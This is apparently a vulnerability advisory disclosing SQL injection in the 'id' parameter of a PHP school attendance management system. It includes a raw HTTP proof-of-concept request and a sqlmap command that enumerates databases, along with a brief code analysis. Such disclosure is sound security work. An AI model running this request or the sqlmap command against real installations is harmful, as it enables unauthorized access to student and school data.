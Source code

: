 ## Affected version: 
School Intramurals - Student Attendance Management System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15920/school-intramurals-student-attendance-management-system-using-php-and-sqlite.html

## Vulnerability File:
/intrams_sams/manage_student.php?id=1*

## Description:
In-school - Student Attendance Management System 1.0 is vulnerable to unrestricted SQL injection attacks via /intrams_sams/manage_student.php, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /intrams_sams/manage_student.php?id=1* HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ti9v91it1tp5drisi5i7b3944b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23

```

sqlmap command
```salmap.py -r 1.txt --random-agent --threads=10 --dbs```

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/aa699f0a-7f2b-44e5-9bca-f5a1d03143fb)

## code analysis:

The id parameter in manage_student.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/c47eae5c-89f9-4a30-847f-81591f3c1bfb)



